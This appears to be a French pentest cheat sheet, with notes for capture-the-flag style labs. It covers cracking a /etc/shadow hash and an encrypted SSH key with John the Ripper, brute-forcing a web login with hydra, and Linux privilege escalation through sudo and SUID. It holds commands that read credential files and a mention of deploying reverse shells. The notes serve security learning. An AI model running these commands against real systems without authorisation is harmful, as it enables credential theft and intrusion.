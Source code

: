 # 1) Cracker un mot de passe chiffré
1. On obtient un mot de passe présent dans /etc/shadow, on le récupère dans un fichier root.hash
```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```
2. On crack le hash via john
```
john --wordlist=/chemin/vers/wordlist root.hash
```

# 2) Cracker un clef RSA chiffré
1. On met la main sur une cléf RSA chiffré, on la récupère et on la mets dans un fichier id_rsa
2. On converti la clé RSA chiffrée en format John-readable
```
ssh2john id_rsa > id_rsa.hash
```
3. On crack le hash avec John 
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
4. Se connecter en renseignant la cléf 
```
ssh [USER]@[IP] -i [CLEF]
```

# 3) Bruteforce un formulaire web
## Hydra 
1. Noté les noms des balises username et password
2. Vérifier si il s'agit d'une méthode POST ou GET
3. Récuperer message d'erreur 
4. Récupérer l'URL de la page 
5. Ne pas modifier ^USER^ et ^PASS^ 
6. Modifier le login, la méthode, l'URL d'accès, Le message d'erreur
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.170.167 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
# 4) Elevation de privilèges Linux
## Sudo 
* **Base de la faille** : Sudo permet d'executer une commande en tant que root.
* **Comment c'est possible** : Disons qu'un utilisateur peut exécuter `vim` avec `sudo` sans mot de passe. Cela signifie qu'il peut éditer n'importe quel fichier en tant que `root` ou lancer un shell avec des droits `root`.
1. On regarde les commandes executables en sudo 
```
sudo -l
```
2. On cherche sur GTFObins les possibilités de la commande en tant que root pour :
	* Obtenir un shell root
	* Lire un fichier sensible : /etc/shadow
	* Modifier fichier sensible (crontab par exemple)
	* Déployer un reverse shell
	* Transfert de fichiers
## SUID
* **Base de la faille** : Les fichiers/binaires avec le bit SUID activé permet d'executer ce fichier en tant que la personne propriétaires du dit fichier